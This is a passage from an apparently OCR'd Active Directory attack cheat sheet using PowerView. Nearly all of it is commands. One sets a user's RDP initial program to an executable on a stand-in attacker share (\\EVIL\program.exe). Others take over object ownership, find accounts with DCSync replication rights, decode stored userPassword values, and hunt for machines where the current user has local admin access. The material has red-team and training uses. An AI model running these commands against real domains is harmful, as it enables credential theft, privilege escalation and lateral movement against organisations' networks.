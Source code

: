 ## Set the specified Property for the given User identity

```powershell
# PowerView
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```

## Set the Owner of 'dfm' in the current Domain to 'bufu'

```powershell
# PowerView
Set-DomainObjectOwner -Identity dfm -OwnerIdentity bufu
```

## Retrieve *most* Users who can perform DC replication for dev.testlab.local (i.e. DCsync)

```powershell
# PowerView
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```

## Check if any User passwords are set

```powershell
# PowerView
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```

## User Hunting with PowerView

### Find all machines on the current Domain where the current User has local Admin Access

This function queries the DC of the current or provided Domain for a list of Computers (`Get-NetComputer`) and then use multi-threaded ``Invoke-CheckLocalAdminAccess`` on each machine.

Can also be done using WMI and PowerShell Remoting, see ``Find-WMILocalAdminAccess.ps1`` and ``Find-PSRemotingLocalAdminAccess.ps1``.

```powershell
Find-LocalAdminAccess -Verbose
```

### Find local Admins on all Machines

Needs administrator privs on non-dc machines.

This function queries the DC of the current or provided Domain for a list of Computers (``Get-NetComputer``) and then use multi-threaded ``Get-NetLocalGroup`` on each machine.
